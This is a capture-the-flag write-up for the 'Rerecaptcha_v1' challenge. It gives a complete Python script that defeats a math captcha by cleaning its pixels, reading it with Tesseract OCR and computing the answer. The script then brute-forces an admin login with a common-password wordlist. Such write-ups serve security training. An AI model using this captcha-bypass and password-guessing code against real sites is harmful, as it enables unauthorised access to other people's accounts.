

## Rerecaptcha_v1

```
Damn hackers keep pwning my website, I've finally found a way to slow them down.
Author: yarienkiva
Format: Hero{}
```

<u>Programming language :</u> Python 🐍

This challenge leaves us with a login page with a captcha secure authentication. The objective of this one was to find a way to automate the login process in order to get the admin password which is in the following wordlist : https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/500-worst-passwords.txt


Well, the wordlist was only 500 passwords long, but calculating each time the captcha is annoying as fuck. So, the first step was to recover a local copy of the captcha. To do it, we should get the URL encoded, base64 value present in the DOM and then convert and copy it into a PNG file. 

```python
url = "http://chall3.heroctf.fr:8081/login"
cookie = dict(session="f8b0c6a0-882e-435a-aa98-9e6f91f21d8b.MtJk-nZ5rJs8agOjjxIgNBeSrCU")

r = requests.get(url, cookies=cookie)

img_b64 = re.search(r"base64,((\w{1,}|%{1,}){1,})", str(r.content))

with open("Captcha.png", "wb") as f:
    f.write(base64.b64decode(unquote(img_b64.group(1))))
```


After getting a local version of the captcha, I tried some OCR tools to have an idea of their successful rate. I find out that they was missing most of the time. So, before continue I decided to try to make the captcha clearer. The idea was to keep only black pixel and converting all pixels of the least used colour which are in contact with at least 2 black pixels. The second part look weird, but you will understand with the following picture.


Now, the code to make it possible :

```python
pixel_color = {}

img_captcha = Image.open("Captcha.png")
pixels = img_captcha.load()

for i in range(img_captcha.size[0]):
    for j in range(img_captcha.size[1]):
        if pixels[i, j] != (0, 0, 0):
            try:
                pixel_color.get(pixels[i, j])
                pixel_color[pixels[i, j]] += 1
            except:
                pixel_color[pixels[i, j]] = 1

i = 1

for key in pixel_color:
    if i == len(key):
        color_change = key
    i += 1    
```

```python
nb_noir = 0

Captcha = Image.new('RGB', (img_captcha.size[0], img_captcha.size[1]), color='white')
pix = Captcha.load()

for i in range(img_captcha.size[0] - 1):
    for j in range(img_captcha.size[1] - 1):
        if pixels[i, j] != (0, 0, 0):
            if pixels[i - 1, j] == (0, 0, 0):
                nb_noir += 1
            if pixels[i + 1, j] == (0, 0, 0):
                nb_noir += 1
            if pixels[i, j - 1] == (0, 0, 0):
                nb_noir += 1
            if pixels[i, j + 1] == (0, 0, 0):
                nb_noir += 1
            if nb_noir > 1 and pixels[i, j] == color_change:
                pix[i, j] = (0, 0, 0)
            else:
                pix[i, j] = (255, 255, 255)
            nb_noir = 0
        else:
            pix[i, j] = (0, 0, 0)

Captcha.save('Captcha2.png')
```


Then, the next step was to use OCR tools to translate the image to text . In that way, we used Tesseract-OCR to convert our Captcha to text.

```python
pytesseract.pytesseract.tesseract_cmd = r'C:\Program Files\Tesseract-OCR\tesseract.exe'
Captcha = pytesseract.image_to_string(Captcha, config="-c tessedit_char_whitelist=0123456789x+-")

Calcul = re.search(r"(\d{1,})(x|-|\+)(\d{1,})(x|-|\+)(\d{1,})", Captcha)

nb1 = int(Calcul.group(1))
nb2 = int(Calcul.group(3))
nb3 = int(Calcul.group(5))
op1 = Calcul.group(2)
op2 = Calcul.group(4)
```


And now, we just have to calculate the text we've just got before and send back the result. I order to do that without thinking too much I just have listed all the possible case.

```python
if op1 == '+' and op2 == '+':
    resultat = nb1 + nb2 + nb3
elif op1 == '-' and op2 == '+':
    resultat = nb1 - nb2 + nb3
elif op1 == 'x' and op2 == '+':
    resultat = nb1 * nb2 + nb3
elif op1 == '+' and op2 == '-':
    resultat = nb1 + nb2 - nb3
elif op1 == '-' and op2 == '-':
    resultat = nb1 - nb2 - nb3
elif op1 == 'x' and op2 == '-':
    resultat = nb1 * nb2 - nb3
elif op1 == '+' and op2 == 'x':
    resultat = nb2 * nb3 + nb1
elif op1 == '-' and op2 == 'x':
    resultat = - nb2 * nb3 + nb1
elif op1 == 'x' and op2 == 'x':
    resultat = nb1 * nb2 * nb3
```


To finish the process the last step.

```python
payload = {'username': 'admin', 'password': XXXXXXX, 'pincode': resultat}
r2 = requests.post(url, payload, cookies=cookie)

if re.search("Invalid login or password", str(r2.content)):
	print('Mauvais PASSWORD - '+str(nb_passwd))
elif re.search("Invalid pincode", str(r2.content)):
	pass
else:
	print('PASSWORD IS : '+z)
```


To conclude this challenge I put all the code into 3 things :

1. A for loop to use all the password into the wordlist.
2. A while loop to keep using the same password until "Invalid pincode" appear
3. A try ... catch ... to instant reset the code each time Tesseract failed the conversion


The final code.

```python
import base64
import re
from urllib.parse import unquote
import pytesseract
import requests
from PIL import Image

with open('wordlist.txt', 'r') as file:
    passwords = file.read().split()

nb_passwd = 0
finish = False

for z in passwords:
    nb_passwd += 1
    print(z)
    while 1:
        try:

####################################### Captcha Recuperation #######################################

            url = "http://chall3.heroctf.fr:8081/login"
            cookie = dict(session="f8b0c6a0-882e-435a-aa98-9e6f91f21d8b.MtJk-nZ5rJs8agOjjxIgNBeSrCU")

            r = requests.get(url, cookies=cookie)

            img_b64 = re.search(r"base64,((\w{1,}|%{1,}){1,})", str(r.content))

            with open("Captcha.png", "wb") as f:
                f.write(base64.b64decode(unquote(img_b64.group(1))))

################################# Calculation of the last used color ##############################

            pixel_color = {}

            img = Image.open("Captcha.png")
            pixels = img.load()

            for i in range(img.size[0]):
                for j in range(img.size[1]):
                    if pixels[i, j] != (0, 0, 0):
                        try:
                            pixel_color.get(pixels[i, j])
                            pixel_color[pixels[i, j]] += 1
                        except:
                            pixel_color[pixels[i, j]] = 0

            i = 0
            for key in pixel_color:
                if i == 1:
                    color_change = key
                i += 1

#################################### Generation of clearer Captcha #################################

            noir = 0

            Captcha = Image.new('RGB', (img.size[0], img.size[1]), color='white')
            pix = Captcha.load()

            for i in range(img.size[0] - 1):
                for j in range(img.size[1] - 1):
                    if pixels[i, j] != (0, 0, 0):
                        if pixels[i - 1, j] == (0, 0, 0):
                            noir += 1
                        if pixels[i + 1, j] == (0, 0, 0):
                            noir += 1
                        if pixels[i, j - 1] == (0, 0, 0):
                            noir += 1
                        if pixels[i, j + 1] == (0, 0, 0):
                            noir += 1
                        if noir > 1 and pixels[i, j] == color_change:
                            pix[i, j] = (0, 0, 0)
                        else:
                            pix[i, j] = (255, 255, 255)
                        noir = 0
                    else:
                        pix[i, j] = (0, 0, 0)

######################################## OCR the Captcha #########################################

            pytesseract.pytesseract.tesseract_cmd = r'C:\Program Files\Tesseract-OCR\tesseract.exe'
            Captcha = pytesseract.image_to_string(Captcha, config="-c tessedit_char_whitelist=0123456789x+-")

            Calcul = re.search(r"(\d{1,})(x|-|\+)(\d{1,})(x|-|\+)(\d{1,})", Captcha)

            nb1 = int(Calcul.group(1))
            nb2 = int(Calcul.group(3))
            nb3 = int(Calcul.group(5))
            op1 = Calcul.group(2)
            op2 = Calcul.group(4)

            if op1 == '+' and op2 == '+':
                resultat = nb1 + nb2 + nb3
            elif op1 == '-' and op2 == '+':
                resultat = nb1 - nb2 + nb3
            elif op1 == 'x' and op2 == '+':
                resultat = nb1 * nb2 + nb3
            elif op1 == '+' and op2 == '-':
                resultat = nb1 + nb2 - nb3
            elif op1 == '-' and op2 == '-':
                resultat = nb1 - nb2 - nb3
            elif op1 == 'x' and op2 == '-':
                resultat = nb1 * nb2 - nb3
            elif op1 == '+' and op2 == 'x':
                resultat = nb2 * nb3 + nb1
            elif op1 == '-' and op2 == 'x':
                resultat = - nb2 * nb3 + nb1
            elif op1 == 'x' and op2 == 'x':
                resultat = nb1 * nb2 * nb3

############################################ Send payload #############################################

            payload = {'username': 'admin', 'password': z, 'pincode': resultat}
            r2 = requests.post(url, payload, cookies=cookie)

            if re.search("Invalid login or password", str(r2.content)):
                print('Mauvais PASSWORD - '+str(nb_passwd))
                break
            elif re.search("Invalid pincode", str(r2.content)):
                pass
            else:
                print('PASSWORD IS : '+z)
                break
        except:
            pass
    if finish == True:
        break
```


It took about 7.15 minutes to test 325 passwords for an average time of 1.34 second per password.


